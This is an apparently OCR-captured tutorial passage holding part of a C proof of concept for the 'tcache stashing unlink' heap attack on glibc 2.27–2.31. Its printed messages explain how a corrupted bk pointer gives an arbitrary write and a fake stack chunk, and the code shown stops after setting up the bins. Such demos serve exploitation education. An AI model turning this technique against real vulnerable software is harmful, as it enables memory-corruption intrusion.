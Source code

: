 源代码：

```bash
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);

    printf("This file demonstrates the stashing unlink attack on tcache.\n\n");
    printf("This poc has been tested on both glibc-2.27, glibc-2.29 and glibc-2.31.\n\n");
    printf("This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    printf("The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    printf("This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");

    // stack_var emulate the fake_chunk we want to alloc to
    printf("Stack_var emulates the fake chunk we want to alloc to.\n\n");
    printf("First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");

    stack_var[3] = (unsigned long)(&stack_var[2]);

    printf("You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
    printf("Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    printf("Now we alloc 9 chunks with malloc.\n\n");

    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);// size > 0x90

```